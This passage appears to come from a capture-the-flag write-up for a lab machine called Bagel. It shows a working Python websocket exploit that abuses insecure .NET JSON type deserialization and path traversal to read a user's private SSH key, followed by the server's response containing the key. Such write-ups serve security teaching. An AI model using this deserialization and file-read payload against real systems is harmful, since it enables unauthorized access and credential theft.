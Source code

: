 The first few times I read the code, I completely ignored the `RemoveOrder` getter and setter. At first glance, they do not appear to do anything.

![RemoveOrder](/assets/images/2023/06/Bagel/RemoveOrder.png "RemoveOrder")

This code was returning an object of any type. If I gave it a File object, I would be able to call ReadFile and give it anything I wanted. The hardest thing was giving it the correct type to load a File object, but all the needed information was in dnSpy.

![Bagel Type](/assets/images/2023/06/Bagel/BagelType.png "Bagel Type")

I used this to read phil's SSH key.

```python
order = {
    "RemoveOrder": {
        "$type": "bagel_server.File, bagel, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null",
        "ReadFile": "../../../../../home/phil/.ssh/id_rsa"
    },
}

ws = websocket.WebSocket()
ws.connect("ws://bagel.htb:5000/")
data = str(json.dumps(order))
print(data)
ws.send(data)
result = ws.recv()
print(result)
```

```bash
$ ./ws.py
{"RemoveOrder": {"$type": "bagel_server.File, bagel, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null", "ReadFile": "../../../../../home/phil/.ssh/id_rsa"}}
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "11:53:51",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3B2 ... \n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```

